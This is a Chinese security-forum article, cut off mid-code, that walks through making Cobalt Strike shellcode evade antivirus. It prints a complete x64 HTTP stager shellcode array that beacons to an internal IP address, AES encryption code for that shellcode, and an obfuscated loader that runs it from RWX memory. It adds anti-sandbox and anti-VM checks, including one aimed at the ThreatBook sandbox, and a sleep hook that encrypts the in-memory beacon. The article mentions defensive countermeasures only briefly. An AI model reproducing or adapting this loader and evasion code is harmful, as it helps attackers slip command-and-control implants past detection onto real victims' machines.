









# 奇安信攻防社区 - 一次 cs 样本免杀实践

### 一次 cs 样本免杀实践

本文记录笔者使用常见默认配置的\`\`cobaltstrike shellcode\`\`免杀的尝试，构造自己的 shellcodeloader 加载对应的 shellcode 实现对常见杀软查杀绕过，实现了对一些常见杀软的绕过，免杀效果还算不错；最后给出来了些对抗文中所使用免杀手段的方法和思路；

# 0x01 背景

从年初开始接触免杀，学习了很多理论；也在攻防项目中，分析了很多前辈们写的免杀马；感觉自己能行了，于是从今年 8、9 月份左右开始想写自己对免杀的一些总结，想从一个比较高的角度概况出所有的免杀思路，一方面给同在入门期的新手们一个学习思路，一方面记录下自己的 release，奈何太菜有心无力，看着自己构画的大纲，又觉得自己接触的东西不过免杀技术的冰山一角，又凭什么写一些总结性的文章呢，就不献丑了；于是转念“大道三千，我取其一即可”，写写自己每次的免杀尝试，尝试过程的用到的知识点做一些总结好了，最后能实现免杀的经历好了。

本文记录笔者使用常见默认配置的`cobaltstrike shellcode`免杀的尝试，构造自己的 shellcodeloader 加载对应的 shellcode 实现对常见杀软查杀绕过。文中测试生成的 shellcode，选择的 listener;

# 0x02 杀软检测

首先我们不妨先简单分析下杀软的查杀方式：

从查杀的时间阶段，笔者理解可以查杀方式主要分为两大类：

-   静态查杀：指以文件静态是在磁盘中的形式对文件进行检测查杀；
-   动态查杀：指以文件动态运行的时候在内存中的形式对文件进行检测查杀；

> 除了这两个查杀方式之外，一些杀软还有一些其他的查杀方式，常见有的：行为查杀（对一些系统行为进行检测，包括但不限于进程创建、驱动程序加载、注册表修改、磁盘访问、内存访问和网络连接等，还有一些注入行为，远程进程注入。通常和动态查杀搭配使用）、Al 分析查杀、网络特征查杀等；本文重点就静态查杀和动态查杀展开；

不妨想下杀软会如何将两种查杀 落地。

## 一、静态检测

文件处于静态的时候，我们看一个样本文件，能看到什么：

> PE 文件头信息，导入、导出、TLS 等表信息，节区信息；shellcode 代码信息；shellcodeloader 代码信息；文件本身的 hash 值

抛开基于黑名单的 hash 值的查杀来看，杀软在这个阶段主要的查杀目标是 shellcode；当然也有一些辅助信息，比如导入、导出表，是否存在 shellcodeloader 特征信息，这些辅助信息大多数是一个总结的评分机制构成，比如存在某个特征 +10 分，如果综合超过了 60，最后就给评为恶意；

我们先来解决主要矛盾：如何避免杀软检测到 shellcode

两种方法：

-   1、把 shellcode 扔了，动态拉取，这也就是常见的 shellcode 分离的免杀技术；这种技术可以简单粗暴的过静态检测；
-   2、把 shellcode 存在形式进行修改，两种选择，第一种是直接把 shellcode“脱胎换骨”，套一个外壳，杀软不认识他了就好了；第二种选择是将 shellcode 简单改改，我们看杀软检测哪，就修改哪，同时保证代码效果不发生变化即可；简单说就是一个大改，一个小改；各有好处；大改实现比较简单粗暴，但是最后使用的时候是要还原的，所以存在后患；小改比较复杂，我们先要了解杀软的规则，检测特征，才能对症下药，之前笔者写个一个绕过火绒的小改 demo 文章[样本测 stager 免杀](https://forum.butian.net/share/2316)，感兴趣的师傅可以看下；笔者认为能够把小改的落地融汇贯通，甚至自己随心所欲的编写 shellcode，基本就独孤求败了，机器都能被绕过，除非是人工分析；

> 大改其实就是加密/编码，小改其实就是对 shellcode 进行去特征化，一般小改建议用于当我们遇到特定的杀软的情况；

然后再来看看次要矛盾：如何将上文的“辅助”信息特征进行隐藏（导入导出等表还有 shellcodeloader 特征信息）

-   这里主要的问题集中在，实现 shellcodeloader 的时候可能会调用一些敏感的 api，从而导致导入表需要导入一些敏感 api；这里我们可以使用一些奇怪的方式去解决敏感 api 的调用；比如，我们可以动态加载 api，运行的时候通过 loadlibrary+getprocaddress 来获取一些 api 的地址，再深层点，我们调用 loadlibrary 和 getprocaddress 也不用 api 直接调用，而是通过 fs 寄存器去 TEB、PEB 里面找内存加载的 dll，找到 kernel32.dll 遍历导出表去找 loadlibrary 和 getprocaddress，这样就连 loadlibrary 和 getprocaddress 都没有了；再深层次一点，我们可以直接做到用户层的极限，直接通过 SSN（system service number/系统访问编号）去实现直接的syscall的调用，如果只是对抗静态，事实上大部分情况，都不用做到这么复杂就能解决问题了；后续在动态查杀中我们再来看看后两者的区别；当然还有一些其他的方法来隐藏shellcodeloader，比如我们选择loader的实现时候可以选择一些不会被标记的api来做，例如：当我们纠结如何让shellcode运行的时候，为了绕开一些Create(Remote)Thread()等函数的检测，可以通过一些回调函数来运行shellcode，等等；

## 二、动态检测

动态查杀的实现主要有两种思路：

-   1、通过虚拟化运行检测：就是大家常说的沙箱，一般杀软会直接或者间接携带虚拟沙箱，当我们的文件落地的时候，如果是可执行文件，会模拟运行，进行查杀；还有一方面是我们要对抗一些在线检测的沙箱，其实就是和这个一回事，国内的比如微步、qax、安天提供的在线沙箱；
-   2、真实运行内存检测：这个检测的时间点在虚拟化运行检测之后，一般是虚拟化检测没问题，用户自己在物理机运行的时候，杀软可以随时将运行的可执行文件内存 dump 下来，进行检测；

这里我们简单说下方法论，不展开说细节，后文提到的技术再展开说；

首先是如何绕过虚拟化检测：核心就是不让虚拟环境接触到我们的 shellcode

-   1、样本做一些虚拟化环境、沙箱做不了的操作；
-   2、样本检查是否存在虚拟化环境、沙箱特征然后不释放恶意代码；

然后是如何绕过内存 dump 的检测：

-   1、我们可以借助一些小技巧来绕过内存 dump 的查杀，例如，内存 dump 肯定是有限制的，他不可能无限 dump，那谁都受不了，程序不用运行了，都让杀软运行得了；所以杀软肯定是有策略的 dump，比如，运行之后的 5 秒钟 dump 第一次，再比如运行之后遇到结合行为检测遇到了一些可疑行为，那就触发一次内存 dump；换句话说所以我们主要保证 dump 的时候，相关 shellcode 和远控逻辑代码是被带上面具的即可，也就是被加密的即可；
-   2、修改特征，这个其实和静态检测中的对 shellcode 的小改的思路是差不多的，就是硬过，修改一些你杀软识别的特征，绕过你的机器检测，这种想要落地是非常难的，在不知道杀软的规则的情况下；需要不断的黑盒测试；同时难度也是比前者更大的，因为此时我们不仅仅是修改 shellcode 特征，还有 shellcode 拉取的更大的远控逻辑代码的特征，还有一些数据段的特征，具体的话看后续的实现方法；

# 0x03 免杀尝试

## 一、静态免杀

过静态查杀的方式有很多，但是最"简单和暴力"的就是上文提到的将 shellcode 的存在形式进行修改中的“大改”：加密/编码；必要的时候需要“隐藏”加密特征（使用一些经常只在远控框架中出现的加密/编码时）

免杀中常见的加解密方法：使用凯撒密码、使用 xor 异或算法、公开的加密体系算法如：aes、des、rc4；这里建议不要选 xor 算法和凯撒密码，除非你的 key 是随机生成并且长度至少要大于 1；因为 yara 有通用匹配机制来对抗这种简单的移位密码算法：如：

```php
rule XorExample1  
{  
    strings:  
        $xor\_string = "This program cannot" xor  
​  
    condition:  
        $xor\_string  
}  
​  
rule XorExample2  
{  
    strings:  
        $xor\_string\_00 = "This program cannot"  
        $xor\_string\_01 = "Uihr!qsnfs\`l!b\`oonu"  
        $xor\_string\_02 = "Vjkq\\"rpmepco\\"acllmv"  
        // Repeat for every single byte XOR  
    condition:  
        any of them  
}
```

上面两条规则是包含的关系，并且第一条包含了第二条；

除了加解密之外，对抗静态查杀也经常使用编码来绕过，比如 msf，其自带的 shikata 编码，是比较理想的编码算法，但是其也有缺陷，就是其自身存在一些强特征；

> 前段时间笔者做了下 datacon 的样本分析的题目，题目就是给了一堆海量的 cs/msf 的样本，让你提取出来 c2 和其使用的编码以及回连端口；里面就提到了 shikata 编码，这个编码可以不停的迭代，msf 中可以控制迭代的次数，比如我可以反复编码编码 23 次也可以 100 次；但是由于其自带的强特征，我们是非常好提取其迭代的次数的。并且非常好判断样本是否使用了 shikata 的编码；）

### 1、对抗 shellcode 特征检测

这里我们为了避免处理编码特征的隐藏，直接选用对 shellcode 进行 aes（加密模式选择 cbc 固定 key 和 iv）加密；因为 aes 是一个很多地方都会使用的加解密算法，所以杀软是不能检测 aes 这个加密特征的；否则误报率相当高；

```php
#include <windows.h>  
#include "AES.h"  
#include <iostream>  
#include <thread>  
using namespace std;  
​  
int main() {  
    //http x64 shellcode   
    unsigned char  plain\[\] \= "\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc8\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48\\x01\\xd0\\x66\\x81\\x78\\x18\\x0b\\x02\\x75\\x72\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0\\x66\\x41\\x8b\\x0c\\x48\\x44\\x8b\\x40\\x1c\\x49\\x01\\xd0\\x41\\x8b\\x04\\x88\\x48\\x01\\xd0\\x41\\x58\\x41\\x58\\x5e\\x59\\x5a\\x41\\x58\\x41\\x59\\x41\\x5a\\x48\\x83\\xec\\x20\\x41\\x52\\xff\\xe0\\x58\\x41\\x59\\x5a\\x48\\x8b\\x12\\xe9\\x4f\\xff\\xff\\xff\\x5d\\x6a\\x00\\x49\\xbe\\x77\\x69\\x6e\\x69\\x6e\\x65\\x74\\x00\\x41\\x56\\x49\\x89\\xe6\\x4c\\x89\\xf1\\x41\\xba\\x4c\\x77\\x26\\x07\\xff\\xd5\\x48\\x31\\xc9\\x48\\x31\\xd2\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x41\\x50\\x41\\x50\\x41\\xba\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xeb\\x73\\x5a\\x48\\x89\\xc1\\x41\\xb8\\x50\\x00\\x00\\x00\\x4d\\x31\\xc9\\x41\\x51\\x41\\x51\\x6a\\x03\\x41\\x51\\x41\\xba\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x59\\x5b\\x48\\x89\\xc1\\x48\\x31\\xd2\\x49\\x89\\xd8\\x4d\\x31\\xc9\\x52\\x68\\x00\\x02\\x40\\x84\\x52\\x52\\x41\\xba\\xeb\\x55\\x2e\\x3b\\xff\\xd5\\x48\\x89\\xc6\\x48\\x83\\xc3\\x50\\x6a\\x0a\\x5f\\x48\\x89\\xf1\\x48\\x89\\xda\\x49\\xc7\\xc0\\xff\\xff\\xff\\xff\\x4d\\x31\\xc9\\x52\\x52\\x41\\xba\\x2d\\x06\\x18\\x7b\\xff\\xd5\\x85\\xc0\\x0f\\x85\\x9d\\x01\\x00\\x00\\x48\\xff\\xcf\\x0f\\x84\\x8c\\x01\\x00\\x00\\xeb\\xd3\\xe9\\xe4\\x01\\x00\\x00\\xe8\\xa2\\xff\\xff\\xff\\x2f\\x58\\x34\\x5a\\x77\\x00\\xbd\\xa3\\x09\\x05\\x92\\x94\\xc5\\x2c\\x92\\x73\\x8c\\x7d\\xfe\\x2c\\xa4\\x45\\xe8\\x6c\\xab\\xa5\\x52\\xec\\x1d\\x16\\x89\\x43\\x65\\x7c\\x19\\x1e\\x3e\\xc5\\x49\\x2f\\x52\\xf4\\xdc\\x29\\x12\\x73\\x35\\x72\\x89\\xba\\x04\\xdf\\xc1\\xd9\\x2d\\x20\\xec\\x91\\x82\\x56\\x29\\xc3\\x29\\x23\\x0f\\xaa\\x25\\xc1\\x6b\\x14\\x03\\x31\\x9e\\x39\\x88\\x39\\xb0\\xde\\xd8\\x00\\x55\\x73\\x65\\x72\\x2d\\x41\\x67\\x65\\x6e\\x74\\x3a\\x20\\x4d\\x6f\\x7a\\x69\\x6c\\x6c\\x61\\x2f\\x34\\x2e\\x30\\x20\\x28\\x63\\x6f\\x6d\\x70\\x61\\x74\\x69\\x62\\x6c\\x65\\x3b\\x20\\x4d\\x53\\x49\\x45\\x20\\x38\\x2e\\x30\\x3b\\x20\\x57\\x69\\x6e\\x64\\x6f\\x77\\x73\\x20\\x4e\\x54\\x20\\x35\\x2e\\x31\\x3b\\x20\\x54\\x72\\x69\\x64\\x65\\x6e\\x74\\x2f\\x34\\x2e\\x30\\x3b\\x20\\x2e\\x4e\\x45\\x54\\x20\\x43\\x4c\\x52\\x20\\x32\\x2e\\x30\\x2e\\x35\\x30\\x37\\x32\\x37\\x29\\x0d\\x0a\\x00\\xc1\\x01\\x5f\\x90\\xbe\\x7f\\x53\\xbb\\xa4\\xe1\\x6d\\x15\\x35\\x12\\x19\\xa0\\xb9\\xc3\\x9e\\xa6\\xa8\\xb4\\xb9\\x68\\x90\\x78\\xbf\\xab\\x92\\xc7\\x49\\xf5\\x56\\x0f\\xab\\xf0\\x17\\x6d\\x10\\x18\\xf0\\x1c\\xe5\\xed\\x23\\x3e\\x29\\x77\\x27\\xd2\\x22\\x04\\x09\\xa4\\x8b\\x0c\\x74\\xb6\\x56\\x02\\xe1\\xa0\\x3d\\x5e\\x66\\xe9\\x3c\\x93\\x1e\\x4b\\xb5\\xa9\\x60\\xcc\\x22\\x08\\x97\\x5f\\x56\\x60\\x4c\\x3c\\xb4\\x29\\xb2\\x16\\xed\\x7f\\xe9\\x54\\x64\\xf5\\xf7\\xbd\\x4c\\xd4\\x7d\\x33\\x78\\x76\\x7d\\xa8\\xe3\\x43\\xf2\\x8f\\x2d\\x1f\\x31\\xf0\\xb9\\x84\\xf7\\x1f\\x82\\x4b\\x07\\x22\\x1e\\x8d\\x1f\\xf0\\xc8\\xc1\\x06\\xb8\\xd7\\x25\\x6a\\x69\\xc7\\x5d\\x74\\x5c\\xbb\\x2e\\x3a\\xb7\\xd0\\xa1\\x62\\x74\\xc7\\x3e\\x14\\x7e\\x3f\\x3f\\x56\\xa1\\xdc\\x0c\\x1e\\xec\\xb5\\x59\\x28\\x52\\x23\\xaf\\x68\\x79\\xb5\\xf1\\xb4\\x50\\x7a\\xab\\xe4\\x28\\xf2\\x91\\x0c\\x73\\xdc\\x4c\\x49\\xc6\\xb7\\xa9\\xa9\\x8c\\x7b\\x24\\x51\\x23\\xc8\\x93\\xe2\\xd7\\x96\\x95\\x56\\x0c\\x7b\\x6a\\xad\\xaf\\x85\\xc9\\xe3\\xab\\x7c\\x35\\xfe\\x00\\x41\\xbe\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x48\\x31\\xc9\\xba\\x00\\x00\\x40\\x00\\x41\\xb8\\x00\\x10\\x00\\x00\\x41\\xb9\\x40\\x00\\x00\\x00\\x41\\xba\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x48\\x93\\x53\\x53\\x48\\x89\\xe7\\x48\\x89\\xf1\\x48\\x89\\xda\\x41\\xb8\\x00\\x20\\x00\\x00\\x49\\x89\\xf9\\x41\\xba\\x12\\x96\\x89\\xe2\\xff\\xd5\\x48\\x83\\xc4\\x20\\x85\\xc0\\x74\\xb6\\x66\\x8b\\x07\\x48\\x01\\xc3\\x85\\xc0\\x75\\xd7\\x58\\x58\\x58\\x48\\x05\\x00\\x00\\x00\\x00\\x50\\xc3\\xe8\\x9f\\xfd\\xff\\xff\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x31\\x34\\x38\\x2e\\x31\\x33\\x37\\x00\\x00\\x00\\x22\\x90";  

​  
    int plain\_size \= sizeof(plain) / sizeof(plain\[0\]);  
    if (plain\_size % 16 != 0) {  
        plain\_size \= plain\_size + (16 \- (plain\_size % 16));  
    }  
​  
    printf("明文:");  
    for (int i \= 0; i < plain\_size; i++) {  
        printf("%x", plain\[i\]);  
    }  
    printf("\\n");  
​  
    unsigned char iv\[\] \= {0x01, 0x02, 0x03, 0x09, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f};  
    printf("IV:");  
    for (int i \= 0; i < 16; i++) {  
        printf("%x", iv\[i\]);  
    }  
    printf("\\n");  
​  
​  
    unsigned char key\[\] \= { 0x01, 0x02, 0x03, 0x09, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f }; //key example  
​  
    printf("KEY:");  
    for (int i \= 0; i < 16; i++) {  
        printf("%x", key\[i\]);  
    }  
    printf("\\n");  
​  
    AES aes(AESKeyLength::AES\_128);  
​  
​  
    //加密  
    //unsigned char\* cipher = aes.EncryptECB(plain, plain\_size, key);   //ecb  
    unsigned char\* cipher \= aes.EncryptCBC(plain, plain\_size, key,iv);   //cbc  
    printf("密文:");  
    for (int i \= 0; i < plain\_size; i++) {  
        printf("\\\\x%02x", cipher\[i\]);  
    }  
    printf("\\n");  
​  

}
```

这样就可以绕过杀软静态检测对 shellcode 的特征检查

### 2、对抗 shellcodeloader 和其他特征

然后我们看下 shellcodeloader：

1、就是使用常规的 VirtualAlloc 开辟 shellcode 的存储空间，然后使用 RtlMoveMemory 将解密后的 shellcode 复制到对应空间；最后将空间开头地址强传函数指针执行即可；

2、我们采用动态加载的形式加载 shellcodeloader 需要的函数

3、过程中出现的字符串，我们都通过栈来存储；不要出现在数据段

大致代码逻辑如下：

```php
函数定义： 
typedef LPVOID(\*MyVirtualAlloc)(LPVOID lpAddress,SIZE\_T dwSize,DWORD  flAllocationType,DWORD  flProtect);  
typedef LPVOID(\*MyRtlMoveMemory)(VOID UNALIGNED\* Destination,const VOID UNALIGNED\* Source,SIZE\_T  Length);  
​  
​  
​  
代码实现：  
cipher\[\] \= "shellcode加密之后的密文";  
char a\[\] \= { 'k','e','r','n','e','l','3','2','.','d','l','l','\\0'};  
char b\[\] \= { 'V','i','r','t','u','a','l','A','l','l','o','c','\\0' };  
char c\[\] \= { 'N','t','d','l','l','.','d','l','l','\\0' };  
char d\[\] \= { 'R','t','l','M','o','v','e','M','e','m','o','r','y','\\0' };  
unsigned char\* res\_plain \= aes.DecryptCBC(cipher, cipher\_size, key, iv);//解密  
MyVirtualAlloc myVa \= (MyVirtualAlloc)GetProcAddress(GetModuleHandle(a), b);  
MyRtlMoveMemory myMov \= (MyRtlMoveMemory)GetProcAddress(GetModuleHandle(c), d);  
LPVOID mem \= myVa(NULL, cipher\_size + 1, MEM\_COMMIT, PAGE\_EXECUTE\_READWRITE);  
myMov(mem, res\_plain, cipher\_size);  
((void(\*)())mem)();
```

## 二、动态免杀

我们主要去绕过上文提到动态检测的两个点：1、通过虚拟化运行检测：2、真实运行内存检测

### 1、对抗虚拟化运行检查（虚拟沙箱）

**检查沙箱特征不运行：**

笔者在今年 hw 的时候分析了一些样本，其中又一些做了一些反虚拟化和反沙箱操作，这里我们直接借鉴，然后稍加增补即可；

如这个 go 写的样本：



这里我们直接借鉴一波，cpu 个数，ram 大小，开机时间的话可以看情况使用：

1、检查 cpu 个数：cpu 小于 2 个，非真实物理机

2、检查 ram 大小，ram 小于 2gb，非真实物理机

3、检查开机时间，这个主要是反一些动态分配的沙箱

```php
/\*  
    check cpu  
    反沙箱、虚拟机 分配的cpu个数  
\*/  
bool checkcpu() {  
    SYSTEM\_INFO systemInfo;  
    GetSystemInfo(&systemInfo);  
    DWORD numberOfProcessors \= systemInfo.dwNumberOfProcessors;  
    if (numberOfProcessors < 2)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
        check RAM  
        内存大于2g  
\*/  
bool checkRAM() {  
​  
    MEMORYSTATUSEX memoryStatus;  
    memoryStatus.dwLength \= sizeof(memoryStatus);  
    GlobalMemoryStatusEx(&memoryStatus);  
    DWORD RAMMB \= memoryStatus.ullTotalPhys / 1024 / 1024;  
    if (RAMMB < 2048)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
    反沙箱、虚拟机,开机时间大于1小时返回true  
\*/  
bool checkUptime() {  
    DWORD upTime \= GetTickCount();  
    //printf("时间：%d", &upTime);  
    if (upTime \> 3600000)  
        return true;  
    else  
        return false;  
}  
​
```

除此之外我们加一些其他沙箱/虚拟机存在的特征：

4、检查是否存在 sub 链接记录：沙箱和虚拟机一般没有 usb 记录

5、检查样本名称：沙箱可能会修改样本名称

6、检查硬盘大小：沙箱和虚拟机一般都不会分配大的硬盘

7、检查 sleep 函数是否被劫持：虚拟沙箱一般为了更快速的运行样本，会劫持 sleep 函数，来对抗一些企图通过延时运行来逃避检测的恶意样本；利用这特征我们可以检测当前环境是否是沙箱

代码实现：

```php
/\*  
    反沙箱 虚拟化  
    检查usb链接的个数  
\*/  
bool checkusbnum() {  
    HKEY hKey;  
    DWORD mountedUSBDevicesCount;  
    RegOpenKeyEx(HKEY\_LOCAL\_MACHINE, "SYSTEM\\\\ControlSet001\\\\Enum\\\\USBSTOR", 0, KEY\_READ, &hKey);  
    RegQueryInfoKey(hKey, NULL, NULL, NULL, &mountedUSBDevicesCount, NULL, NULL, NULL, NULL, NULL, NULL, NULL);  
    if (mountedUSBDevicesCount < 1)  
        return false;  
    else  
        return true;  
​  
}  
/\*  
    反沙箱、虚拟化  
    检查文件名(有些沙箱会改名去运行)  
    文件运行的路径（这个要配合样本本身来做，样本要把自己复制到特定的文件夹下面，然后创建进程启动目标文件夹下的样本，结束自己；  
    之前遇到过一个样本：1、先把自己复制到特定文件夹；2、释放一个bat文件 3、运行bat文件，bat文件运行复制之后的样本来反查杀、反虚拟、沙箱  
\*/  
bool checkprocessnameandpath() {  
    char currentProcessPath\[MAX\_PATH + 1\];  
    GetModuleFileName(NULL, currentProcessPath, MAX\_PATH + 1);  
    //if (!wcsstr(currentProcessPath, L"C:\\\\USERS\\\\PUBLIC\\\\")) return false;  
    if (!strstr(currentProcessPath, "AvoidRandomKill.exe"))//这里填写样本的名字  
    {  
        return false;  
    }  
    else  
        return true;  
}  
​  
​  
/\*  
    反虚拟机、沙箱  
    硬盘大小大于100  
\*/  
bool checkHDD() {  
​  
    HANDLE hDevice \= CreateFileW(L"\\\\\\\\.\\\\PhysicalDrive0", 0, FILE\_SHARE\_READ | FILE\_SHARE\_WRITE, NULL, OPEN\_EXISTING, 0, NULL);  
    DISK\_GEOMETRY pDiskGeometry;  
    DWORD bytesReturned;  
    DeviceIoControl(hDevice, IOCTL\_DISK\_GET\_DRIVE\_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);  
    DWORD diskSizeGB;  
    diskSizeGB \= pDiskGeometry.Cylinders.QuadPart \* (ULONG)pDiskGeometry.TracksPerCylinder \* (ULONG)pDiskGeometry.SectorsPerTrack \* (ULONG)pDiskGeometry.BytesPerSector / 1024 / 1024 / 1024;  
    if (diskSizeGB < 100)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
    反沙箱、虚拟机  
    检测时间是否加速，来绕过沙箱  
\*/  
BOOL accelerated\_sleep()  
{  
    DWORD dwStart \= 0, dwEnd \= 0, dwDiff \= 0;  
    DWORD dwMillisecondsToSleep \= 30 \* 1000;  
​  
    dwStart \= GetTickCount();  
    MySleep mySlp \= (MySleep)GetProcAddress(GetModuleHandle("Kernel32.dll"), "Sleep");  
    mySlp(dwMillisecondsToSleep);  
    dwEnd \= GetTickCount();  
​  
    dwDiff \= dwEnd \- dwStart;  
    if (dwDiff \> dwMillisecondsToSleep \- 1000) // substracted 1s just to be sure  
        return false;  
    else  
        return true;  
}  
```

除此之外，这里也提一嘴对特定沙箱的绕过方法：其实对特定沙箱绕过是比较容易的，尤其是沙箱能够开放其自己的很多信息的情况下：

8、反”微步“沙箱：这里拿微步沙箱举例子，简单使用两次微步的沙箱，你会发现其存在一个非常简单但是实用的特征，他总是把样本放到一个形如，如下路径的磁盘位置进行运行：

`C:\\[A-Za-z]{7}\\样本名称`

如下是一次运行沙箱运行截图：


这里我们直接锁定路径，正则匹配，如果出现再这种目录下，不释放 shellcode 即可：

代码实现如下：

```php
​  
/\*  
    根据沙箱放置样本路径特征对抗微步沙箱  

\*/  
bool checkWEIBU() {  
    char currentProcessPath\[MAX\_PATH + 1\];  
    GetModuleFileName(NULL, currentProcessPath, MAX\_PATH + 1);  
    std::string input(currentProcessPath);  
    std::regex pattern(R"(C:\\\\\[A-Za-z\]{7}\\\\MyAESLoader\\.exe)");  
    std::smatch matches;  
​  
    if (std::regex\_search(input, matches, pattern)) {  
        return false;  
    }  
    else {  
        return true;  
    }  
}
```

> 当然除此之外还有很多其他方法，比如通过计算沙箱环境背景图片的 hash，通过匹配对应 hash，来判断是否在对应指定的沙箱；再比如，通过一些点击操作来截断沙箱分析，如弹窗点击操作；再比如获取鼠标移动路径，来判断是否是沙箱等等

为了绕过虚拟化沙箱，除此之外还有第二条思路：运行沙箱做不了的操作

这里简单说下有哪些实现方式：

1、有些沙箱不能联网或者说是虚假联网：我们可以通过尝试访问某个互联网上的时间接口，来判断是否能够联网，并且是真实的互联网；这里为什么要说是真实的互联网呢，因为有的沙箱为了让恶意样本运行，会去模拟一些环境来 满足支持恶意样本，比如域名解析，不管恶意样本需要解析什么域名，都会解析成功；我们熟知的 WannaCry 勒索软件病毒回来域名解析失败之后会造成勒索，因为其尝试解析就是一个根本不存在的域名（），其将此作为开关，来避免被一些沙箱环境检测。

2、沙箱不能模拟命名管道通信：CobaltStrike 里面的 The Artifact Kit 其中一种技术就是通过命名管道向自身提供 shellcode，但是沙箱做不到这个操作，从而沙箱就不会拿到 shellcode，也没有办法静态直接匹配，因为 shellcode 是使用一串随机字节，xor 加密的；感兴趣可以通过 cs 生成 artifact 的样本看看；


### 2、对抗内存检测

这里我们选择上文提到的对抗内存 dump 检测绕过的第一种方法，即巧妙的运行杀软不能过度占用资源的限制，在其准备 dump 之前抓住时机加密恶意代码，然后需要运行恶意代码的时候在解密出来；一句话概述就是动态内存加解密；

这里我们使用的 c2 框架是 cobaltstrike，所以我们可以借助其 sleep 的特性来完成动态加解密这一操作；每次 sleep 之前加密内存种所有恶意代码，sleep 之后解密还原内存中的恶意代码；

这项技术有两个个难点：

1、如何准确的找到其调用 sleep 的时机，并插入我们加解密的代码

2、如何准确的找到所有的恶意代码，因为我们要对其进行加解密，所以我们要在内存空间中准确的找到所有恶意代码

第一个问题，如果学习过逆向技术的师傅们，应该很快就能想到，这不是 hook 嘛，根本不用找，直接 hook sleep 不就可以了，对，我们可以通过 inline hook 劫持 sleep 这个 api，让 shellcode 执行我们自定义的 sleep，就可以为所欲为了；

第二个问题，这个问题有点不好想，需要了解 cobaltstrike 的 shellcode 的实现方式，以及其 beacon 的拉取和加载；笔者曾在攻防社区发布过几篇关于 cs 分析的文章；

[Cobaltstrike4.0 —— shellcode 分析](https://forum.butian.net/share/2017)

[Cobaltstrike4.0——记一次上头的 powershell 上线分析](https://forum.butian.net/share/1934)

这里笔者就不再重复写起加载和拉取过程的原理了，简单说就是，shellcode 会拉取 beacon，拉取的 beacon 会通过特殊构造的 dll 引导头跳入反射加载函数，从而反射加载自己到内存中；之后的远控逻辑都是再后者了；

所以这里我们要处理的恶意代码总共就三个：

-   1、 shellcode
-   2、文件形式 beacon
-   3、内存形式 beacon

首先我们要找到这三个地址，然后操作的时候，对于 shellcode 和文件形式的 beacon 可以直接抹除，只要实现内存形式的 beacon 的动态加解密即可；

shellcode 好说，这个本身就是我们申请的空间，很容易我们能拿到对应地址

文件形式的 beacon，内存形式的 beacon 是该如何找到，这是一个问题，这个问题可以使用两种方式来实现：

1、hook virtualAlloc 函数；shellcode 拉取 beacon，是通过 VirtualAlloc 开辟的空间；反射加载函数，自加载的时候也是 VirtualAlloc 一个空间，然后实现对应的”loadlibrary“工程；

2、仔细观察，你会发现，不管是文件形式的 beacon 还是内存形式的 beacon，其申请的空间都是私有的可读可写可执行的空间，其他正常内存属性都不会是这样；

如下图，右边是之前的属性（RW），左边是被处理修改后的属性 (ERW)


所以我们可以通过内存页遍历，从内存属性出发去找对应的属性，然后做标记；

这里唯一的一个问题就是如何曲风哪个是内存 beacon 那个是文件形式的 beacon，笔者刚开始想当然的觉得，第一个低位置 0x84000 内存是文件形式的 beacon，第二个高位置 0x2B2000 是内存形式的 beacon，因为首先从大小上看，按道理文件形式的 beacon 大小肯定是 i 西澳娱内存形式的 beacon 的，因为内存对齐单位通常是 0X1000 文件对齐单位是通常是 0x200；其次默认觉得先申请的是低位置空间的，后申请的是高位置空间的，哈哈哈；然后事实是先后申请和内存位置的高低没有任何关系；后来测试发现，有时候内存形式 beacon 在文件形式 beacon 之前，有时候又恰巧相反；

所以我们能区分两者，简单的方式，是”反着看“大小；有点离谱，这里笔者也没懂，为什么会这样，为什么 cobaltstrike 在申请一个存储文件形式 beacon 的空间的时候申请了一个相对大的空间，在申请一个内存形式 beacon 的空间的时候申请了一个相对小的空间；

代码实现：

这里实现 hook 是通过 detours 库来实现的；

```php
​  
// 加解密 Beacon  
void My\_Encrypt()  
{  
    // 定位到真正的 Beacon 内存页  
    MemoryAttrib Beacon \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
​  
​  
    DWORD bufSize \= Beacon.size;  
​  
    unsigned char\* buffer \= (unsigned char\*)(Beacon.address);  
    int bufSizeRounded \= (bufSize \- (bufSize % sizeof(unsigned int)));  
​  
​  

    //AESEncode(buffer,Bufsize);//加密拉伸后的 beacon  
    AESEncode(buffer, bufSizeRounded);//加密拉伸后的 beacon  
​  
    DWORD oldProt;  
​  
    // 将内存页设置为可读可写  
